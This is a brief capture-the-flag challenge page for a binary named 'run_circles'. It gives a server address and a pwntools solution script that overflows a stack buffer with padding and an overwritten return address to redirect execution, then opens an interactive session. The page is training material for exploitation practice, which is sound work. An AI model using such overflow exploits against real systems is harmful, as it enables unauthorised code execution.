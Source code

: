 #### Goals
 * Try to find the flag

#### Server Address
 * http://pwn.sniperoj.com:20000/

#### Solution
```python
#!/usr/bin/env python

from pwn import *

# context(os='linux', arch='amd64', log_level='debug')

Io = process("./run_circles")
#Io = remote("pwn.sniperoj.cn", 30013)

Io.sendline("1024")
Io.sendline("A")
Io.sendline("B" * 256 + "C" * 24 + p64(0x400806))
Io.sendline("0")

Io.interactive()
```



#### Writeups
 * [Offical Writeup]()
 * [Other Writeup]()

